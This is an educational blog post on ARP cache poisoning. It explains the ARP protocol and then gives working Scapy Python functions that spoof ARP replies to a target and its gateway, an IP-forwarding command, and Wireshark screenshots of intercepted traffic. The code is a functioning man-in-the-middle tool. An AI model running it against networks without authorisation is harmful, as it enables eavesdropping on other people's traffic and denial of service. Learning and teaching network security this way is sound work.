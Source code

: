 ```yaml
---
title: "A Look into Arp Cache Poisoning and Using It to Perform MITM Attack"
date: 2019-07-24
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - ARP cache poisoning
  - Scapy
---
```


# What is ARP?
At the lowest level, a switch connects a bunch of hosts. If a protocol P on a host S wants to send some information to another host R on the network, S needs to find out the Ethernet address of R before it can transmit the packet. There must be a mapping of the address of R in protocol Ps address space to a 48-bit Ethernet address, to get the Ethernet address of R. The Address Resolution Protocol (ARP) provides this resolution. 


## ARP Messages
In this blog post, we are mainly concerned with two types of ARP messages.

1.	ARP Request, and
2.	ARP Reply

The ARP packet has the following format.

![ARP Packet Format](../../assets/images/arp-spoofing/main-arp-format.png)

In IPv4 over Ethernet, the sender or receiver protocol address refers to the IP address of the sender or receiver. The hardware address refers to the 48-bit Ethernet address. To resolve a host with an IP address, say for example X.X.X.X, S broadcasts (Target hardware address is FF:FF:FF:FF:FF:FF or all 1s) out an ARP request with the sender protocol address field set to our IP address, say for example Y.Y.Y.Y, asking

```
Who is X.X.X.X? tell Y.Y.Y.Y
```

All the hosts on the network check to see if the target IP address matches their address on receiving the ARP request. The host ‘X.X.X.X,’ on seeing that its IP address matches the one in the ARP request, sends out an ARP reply to Y.Y.Y.Y along with its Ethernet address. Once S receives the ARP request, it adds the Ethernet address of R to a cache table and starts sending out whatever packets protocol P has to send.

The following image gives an example of an ARP request and response. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-arp.png)

# ARP Spoofing
The main issue of ARP lies in the fact that there is no authentication of the ARP reply, i.e., any host can send an ARP reply claiming to be the Target. There is no check done by ARP to verify if the host that has sent the ARP reply is whom it claims to be. 

If host A wants to send data to host B on the same network, it will first resolve the hardware address using host B’s IP address, and then sends the data. If we send an ARP reply claiming to be host B, host A will update its cache with our Ethernet address. All subsequent messages are sent to us. If instead host A wants to send data to a host X, not on the same network, host A will send it to the default gateway which will then forward the message to the appropriate router. To intercept these messages, we need to send an ARP reply claiming to be the default gateway. Once we poison the target’s cache, we can either choose to forward the packets performing a man-in-the-middle attack (MITM) or drop them performing a denial of service attack.

## Performing ARP Cache Poisoning
To poison a target's ARP cache, we need the target's MAC address. To get the MAC address, we
can send ARP request packet to the target. This can be done the following way.

```python
def get_mac(ip):
	# Create an ARP packet with the target as the destination 
  arp = Ether()/ARP(pdst=ip)
	
  # Send the ARP request and get the response
  resp = srp1(arp)

  # Return the target's MAC address
	return (resp[Ether].src)
```

Once we get the target's MAC address, we can poison its cache by continously sending spoofed ARP responses. The function *poison_arp_cache* is looped forever until the user exits. This is because
the target might try to flush it's ARP cache and send out an ARP request. To prevent it from overwriting our spoofed ARP cache entry, we must keep sending it spoofed ARP responses. 

```python
def poison_arp_cache(target_ip, target_mac_addr, spoofed_ip, spoofed_mac_addr=Ether().src):
	# Create the ARP response
	spoofed_resp = Ether()/ARP()

	# Set the destination MAC address
	spoofed_resp[Ether].dst = target_mac_addr
	spoofed_resp[ARP].hwdst = target_mac_addr

	# Set the destination IP address
	spoofed_resp[ARP].pdst = target_ip

	# Set the spoofed MAC address
	spoofed_resp[Ether].src = spoofed_mac_addr
	spoofed_resp[ARP].hwsrc = spoofed_mac_addr

	# Set the spoofed IP address
	spoofed_resp[ARP].psrc = spoofed_ip

	# is-at (response)
	spoofed_resp[ARP].op = 2

	#print(spoofed_resp[0].show())
	sendp(spoofed_resp)
```
On trying the above code fragments with the target as a Raspberry Pi 3B+ on the same network as my 
laptop, we get the following results.

### Before ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-before.png)

### After ARP Cache Poisoning
![ARP Packet Format](../../assets/images/arp-spoofing/pi-arp-table-after.png)

We can see that we have successfully overwritten the target's cache table with my laptop's MAC address. All subsequent messages will now be sent to my laptop. But to prevent a DOS attack, we must forward the packets to the destination. This involves poisoning the destination's ARP cache table too. If the destination is not on the same network, we must poison the default gateway's cache table. To poison the default gateway, we need its IP address and MAC address. We can get them in the following manner. 

```python
def get_default_gateway_details():
	# Send a request to any host outside our network with the TTL set to 0
	p = srp1(Ether()/IP(dst="www.google.com", ttl = 0)/ICMP()/"XXXXXXXXXXX")

	# Return the source's IP address and MAC address
	return p[IP].src, p[Ether].src
```

In the *get_default_gateway_ip* function, since the TTL is set to zero, the first host on the route which is the default gateway, responds with an ICMP error message {TTL Zero During Transit}. We then read the ICMP error message to get the default gateway's IP address, and MAC address.

To perform the MITM attack, we can use the following function.

```python
def perform_mitm(target_ip):
	# Get default gateway's network details
	default_gateway_ip, default_gateway_mac = get_default_gateway_details()

	# Get target's MAC address
	target_mac = get_mac(target_ip)

	# Keep sending spoofed ARP responses
	while True:
		# Poison target's ARP cache table
		poison_arp_cache(target_ip, target_mac, default_gateway_ip)
		# print(f"Sent ARP reply to {target_ip}")

		# Poison default gateway's ARP cache table
		poison_arp_cache(default_gateway_ip, default_gateway_mac, target_ip)
		# print(f"Sent ARP reply to {default_gateway_ip}")
```

#### Side Note on Enabling Packet Forwarding
To allow packets from the target or the gateway are forwarded, we must enable packet forwarding so that our system acts as a router. Whenver a packet not destined to us arrives, the os automatically forwards to the appropriate host. 

To enable this on linux, we must do the following.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

On windows, we must carry out the following steps.
```
1. Open Regedit as adminstrator,
2. Navigate to the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\ Services\Tcpip\Parameters\IPEnableRouter setting,
3. Right click and select Modify,
4. Change 0 to 1 and exit the editor,
5. Type services.msc in the command prompt,
6. Navigate to the Routing and Remote Access service, 
7. Right click and select Properties, 
8. Change to Automatic and click on Start to start the service.
```

### MITM Results
On running the *perform_mitm* function, we now receive all communications between the gateway and the target. This can be seen in wireshark. On sending GET request to *www.resonous.com*, we can see the request in my laptop.

![ARP Packet Format](../../assets/images/arp-spoofing/curl-resonous.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get.png)

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-get-depth.png)

Since the GET request resulted in moved result. We can curl the website over https in the following manner. 

![ARP Packet Format](../../assets/images/arp-spoofing/res-https.png)

The same can be seen in wireshark. 

![ARP Packet Format](../../assets/images/arp-spoofing/wireshark-https-depth.png)

That's it for this post. The complete script is available at my github [page][page]


[page]: https://github.com/venkat-abhi/arp-cache-poisoner